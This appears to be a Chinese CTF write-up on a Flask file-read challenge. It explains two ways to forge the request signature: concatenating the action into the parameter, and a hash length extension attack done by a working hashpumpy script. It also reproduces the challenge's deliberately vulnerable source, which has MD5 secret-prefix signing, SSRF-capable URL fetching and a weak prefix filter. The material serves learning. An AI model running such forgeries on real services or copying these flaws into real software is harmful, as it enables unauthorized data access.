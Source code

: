 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-18
---
```


## 思路

1. 题目提示hint为`flag is in ./flag.txt`，另外打开网页显示一段flask代码，如下：

<img src="../images/image-20210118204158228.png" alt="image-20210118204158228" width="50%;" />

​	整理代码进行分析，主要分为两大块。

- class Task

- 三个路由，对应这三个路由，分别有不同的执行动作

  <img src="../images/image-20210118205659171.png" alt="image-20210118205659171" width="50%;" />

  - @app.route("/geneSign", methods=['GET', 'POST'])

    - 获取param参数值，并将action设置为scan
    - 获取sign值（调用getSign函数）

  - @app.route('/De1ta',methods=['GET','POST'])

    - 获取param参数值，并从cookie获取action和sign值
    - 调用Task类，并返回task.Exec()返回值

  - @app.route('/')

    - 根目录路由，即打开网页显示的内容

  - 分析完三个路由其实就可以比较清晰的看出，Task.exec()应该是一个比较重要的函数，设置特定参数值，即可获取flag内容。

    <img src="../images/image-20210118205754486.png" alt="image-20210118205754486" width="50%;" />

  2. 分析class Task

     - 函数首先会checkSign，即验证sign值是否正确。
     - 然后会判断scan和read这两个字符串是否在cookie action中
       - scan：先打开tmpfile文件，然后读取传入param对应的文件，并将读取的文件内容写入tmpfile
       - read：读取scan中tmpfile对应的文件内容
       - 最后返回result

     因此如果想读取flag，完整的流程应该是，通过checkSign验证，然后先读取flag.txt，写入tmp文件中，再读取tmp文件。

     这样会**要求**：

     - getSign(self.action, self.param) == self.sign
       - hashlib.md5(secert_key + param + action).hexdigest()
       - 即当前action和param产生的md5值，与cookie中sign值相同
     - scan和read均在cookie的action值中。

  3. 绕过方法：

     **设置sign值，**

  --》根据传入一个param参数值，geneSign可以获取一个sign值

  ​	   但这里生成的sign值中action始终为scan，与上面的第二点要求冲突。

  ​		因此可以从md5生成方式入手：

  ​		题目是对`secert_key + param + action`三者拼接而成的字符串进行md5，而在获取flag时，必须设置action为readscan/scanread，则这里可以考虑在geneSign页面输入param时，直接输入flag.txtread，然后与geneSign中的action拼接后便为flag.txtreadscan，满足要求。

  <img src="../images/image-20210118212149606.png" alt="image-20210118212149606" width="67%;" />

  <img src="../images/image-20210118212312532.png" alt="image-20210118212312532" width="67%;" />

  4. 这里也可使用另外一种方法：**哈希长度扩展攻击**

     主要使用python的hashpumpy库

脚本如下：

```python
import hashpumpy
import requests
import urllib.parse

txt1 = 'flag.txt'
r = requests.get('http://**/geneSign', params={'param': txt1})
sign = r.text
hash_sign = hashpumpy.hashpump(sign, txt1 + 'scan', 'read', 16)

r = requests.get('http://**/De1ta', params={'param': txt1}, cookies={
    'sign': hash_sign[0],
    'action': urllib.parse.quote(hash_sign[1][len(txt1):])
})

print(r.text)
```

附录（源码）：

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0')
```



## 总结

- 主要考察flask源码审查，整个代码逻辑理清楚之后还是比较容易做出了的
- 注意本题的第二种方法  **哈希长度扩展攻击** 值得学习